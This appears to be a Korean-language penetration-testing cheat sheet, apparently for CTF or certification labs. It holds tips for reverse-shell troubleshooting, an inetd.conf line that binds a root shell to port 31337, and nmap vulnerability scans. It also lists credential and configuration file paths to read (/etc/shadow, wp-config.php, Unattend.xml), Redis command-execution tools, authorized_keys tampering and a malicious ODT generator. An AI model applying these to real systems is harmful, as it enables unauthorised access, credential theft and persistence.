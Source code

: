 - `config` 파일을 먼저 `find`로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse

- `curl` 헤더 확인

- 사이트 제목 및 내용 확인

- `/var/mail`에 있는 내용 확인
- github에서 `"$pass"`로 pass 변수 찾기
---
# windows ssh file location
```powershell
C:\Users\<Username>\.ssh
```
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
- /etc/hosts에 등록하고 난 뒤에 nmap 한번 더 실행해주기.

```bash
sudo nmap -Pn <ip>
```
- ping 테스트가 안되더라도 서버가 열려있을 수 있으니 확인
---
# FTP
- `ls -al`로 숨겨진 파일 확인 가능.
- 업로드가 가능한지 확인
---
# Interesting File Path
```bash
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname

/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/auth.log

/var/www/html/wp-config.php <-- Wordpress
/var/www/configuration.php <-- Joomla
/var/www/html/inc/header.inc.php <-- Dolphin
/var/www/html/sites/default/settings.php <-- Drupal
/var/www/configuration.php <-- Mambo
/var/www/config.php <-- PHP
```
```powershell
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep

C:/inetpub/wwwroot
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles
```
---
# Redis modules execute command
<img width="811" height="496" alt="image" src="https://github.com/user-attachments/assets/0426a9b3-32af-41ba-9bdf-e3585a712089" />

- https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
- https://github.com/n0b0dyCN/redis-rogue-server
---
# redis-cli
```bash
redis-cli -h <ip>
```
---
# SSH
- authorized_keys를 변경할 수 있으면 변경
---
# Make ODT File
- https://github.com/0bfxgh0st/MMG-LO
